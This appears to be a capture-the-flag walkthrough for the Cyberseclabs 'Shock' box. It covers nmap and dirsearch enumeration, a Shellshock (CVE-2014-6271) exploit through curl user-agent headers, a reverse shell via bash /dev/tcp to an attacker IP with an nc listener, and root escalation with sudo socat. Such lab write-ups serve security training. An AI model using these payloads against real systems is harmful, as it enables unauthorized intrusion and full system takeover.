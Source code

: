 In this walkthrough, we'll go over a beginner level box called ***Shock*** on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Shock IP](shockIP.png)

Let's start the scanning process with nmap:
```bash
nmap -sTV -sC -n 172.31.1.3
```
![Shock nmap](shocknmap.png)

We can see that the port 80 open and it looks like a restaurant website is being served on this port:
![Shock index](shockwebpage.png)

We can start a directory enumeration on this site to see if we can find anything else. We can use the following `sudo dirsearch  -u http://172.31.1.3 -r -f -t 100 -x 403`
![Shock dirsearch](shockdirsearch.png)

We find ***cgi-bin*** folder is present. Maybe it is vulnerable to the Shell Shock vulnerability. We can easily test it with nmap `sudo nmap --script http-shellshock --script-args uri=/cgi-bin/test.cgi 172.31.1.3 -p 80`
![Shock nmap cgi](shockcginmap.png)

It looks like this machine is vulnerable to CVE-2014-6271 which is the Shell Shock vulnerability. Let's see if we can list the local directories with `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls -la;'" http://172.31.1.3/cgi-bin/test.cgi`
![Shock check vul](shockcheckcgi.png)

Let's start a nc listener on port 5555 `nc -nvlp 5555` and then run the following command to get a reverse shell `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.0.18/5555 0>&1;'" http://172.31.1.3/cgi-bin/test.cgi`
![Shock foothold](shockfoothold.png)

As we can see we are www-data user, let's see if we can run any commands as another user `sudo -l`:
![Shock sudo -l](shocksudo-l.png)

We can become root by running the following `sudo socat stdin exec:/bin/sh`:

![Shock root](shockroot.png)

I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
